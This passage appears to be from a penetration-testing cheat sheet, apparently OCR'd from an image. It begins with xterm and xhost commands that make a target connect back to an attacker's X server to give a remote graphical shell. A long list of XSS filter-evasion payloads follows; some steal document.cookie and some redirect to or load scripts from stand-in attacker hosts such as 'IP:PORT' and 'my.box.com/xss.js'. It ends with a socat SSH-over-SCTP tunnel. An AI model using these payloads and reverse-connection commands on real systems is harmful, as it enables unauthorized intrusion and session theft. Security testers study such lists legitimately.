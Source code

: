 # Then remember to authorise on your system the target IP to connect to you
xterm -display 127.0.0.1:1

# Run this INSIDE the spawned xterm on the open X Server
xhost +targetip

# Then on the target connect back to the your X Server
xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
or
$ DISPLAY=attackerip:0 xterm
XSS Cheat Codes
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
("< iframes > src=http://IP:PORT </ iframes >")

<script>document.location=http://IP:PORT</script>

';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//–></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

";!–"<XSS>=&amp;amp;{()}

<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"">
<IMG SRC=&amp;amp;#106;&amp;amp;#97;&amp;amp;#118;&amp;amp;#97;&amp;amp;#115;&amp;amp;#99;&amp;amp;#114;&amp;amp;#105;&amp;amp;#112;&amp;amp;#116;&amp;amp;#58;&amp;amp;#97;&amp;amp;#108;&amp;amp;#101;&amp;amp;#114;&amp;amp;#116;&amp;amp;#40;&amp;amp;#39;&amp;amp;#88;&amp;amp;#83;&amp;amp;#83;&amp;amp;#39;&amp;amp;#41;>

<IMG SRC=&amp;amp;#0000106&amp;amp;#0000097&amp;amp;#0000118&amp;amp;#0000097&amp;amp;#0000115&amp;amp;#0000099&amp;amp;#0000114&amp;amp;#0000105&amp;amp;#0000112&amp;amp;#0000116&amp;amp;#0000058&amp;amp;#0000097&amp;amp;#0000108&amp;amp;#0000101&amp;amp;#0000114&amp;amp;#0000116&amp;amp;#0000040&amp;amp;#0000039&amp;amp;#0000088&amp;amp;#0000083&amp;amp;#0000083&amp;amp;#0000039&amp;amp;#0000041>
<IMG SRC="jav ascript:alert('XSS');">

perl -e 'print "<IMG SRC=javascript:alert(\"XSS\")>";' > out

<BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert("XSS")>

(">< iframes http://google.com < iframes >)

<BODY BACKGROUND="javascript:alert('XSS')">
<FRAMESET><FRAME SRC=”javascript:alert('XSS');"></FRAMESET>
"><script >alert(document.cookie)</script>
%253cscript%253ealert(document.cookie)%253c/script%253e
"><s"%2b"cript>alert(document.cookie)</script>
%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)'%3E
<img src=asdf onerror=alert(document.cookie)>
SSH Over SCTP (With Socat)
# on remote server
# assuming you want the SCTP socket to listen on port 80/SCTP and sshd is on 22/TCP
$ socat SCTP-LISTEN:80,fork TCP:localhost:22
